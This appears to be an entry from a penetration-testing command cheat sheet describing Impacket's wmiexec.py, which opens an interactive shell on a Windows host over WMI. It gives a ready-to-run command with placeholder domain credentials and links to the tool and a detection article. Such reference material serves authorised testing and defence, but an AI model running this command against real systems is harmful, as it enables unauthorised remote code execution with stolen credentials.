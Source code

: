 ```yaml
---
description: |
  Impacket's wmiexec.py uses the Windows Management Instrumentation (WMI) to give you an interactive shell on the Windows host.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123
command: |
  python3 wmiexec.py test.local/john:password123@10.10.10.1
items:
  - Password
  - Username
services:
  - WMI
OS:
  - Linux
  - Windows
phases:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py
  - https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/#wmiexecpy
---
```

